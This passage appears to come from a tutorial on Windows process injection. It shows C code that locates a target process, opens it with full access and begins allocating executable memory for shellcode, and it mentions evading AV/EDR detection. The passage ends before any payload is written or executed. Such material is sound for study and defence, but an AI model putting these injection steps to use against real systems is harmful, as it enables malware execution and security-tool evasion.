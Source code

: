 ```
                                  |         ntoskrnl.exe         | <--------------+                 
                                  |                              |                                  
                                  +------------------------------+                                  
```
*figure 2*

## Standard Windows APIs
### pros:
- easy to use

### cons:
- detectable by most AV/EDRs

we start by using standard Windows APIs as it is simpler than two other ways. First we need to find our target process ID. We create a function called ```find_process``` that gets a process name and it uses [CreateToolhelp32Snapshot](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-createtoolhelp32snapshot) API to get the list of current processes and uses [Process32First](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-process32first) and [Process32Next](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-process32next) to go through them one by one and compare the name of the processes with our target process. **Process32First** and **Process32Next** APIs get a pointer to [PROCESSENTRY32](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/ns-tlhelp32-processentry32) struct that could hold information about processes like its name and id. If it succeeds to find the process it returns its process ID.
```c
DWORD find_process(char *process_name){

	PROCESSENTRY32 process_entry;
	process_entry.dwSize = sizeof(PROCESSENTRY32);

	//get the list of processes
	HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

	//check processes to find TARGET_PROCESS_NAME
	if (Process32First(snapshot, &process_entry) == TRUE){
		
        	while (Process32Next(snapshot, &process_entry) == TRUE){
        		if (stricmp(process_entry.szExeFile, process_name) == 0){  
				    CloseHandle(snapshot);
				    return process_entry.th32ProcessID;
            	}
        	}
    	}

	CloseHandle(snapshot);
	return 0;
}
```
for the next step, we need to open our target process using the [OpenProcess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess) function. We pass our parameters including the target process id that we get from the previous step and it returns a handle to that process.
```c
HANDLE target_process_handle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, target_process_id);
```
 now we need to allocate space for our shellcode in the target process using the [VirtualAllocEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex) function. we should allocate this space with **PAGE_EXECUTE_READWRITE** (Read, Write, Execute) permission. this function returns the base address of the allocated region. 
 ```c
 ```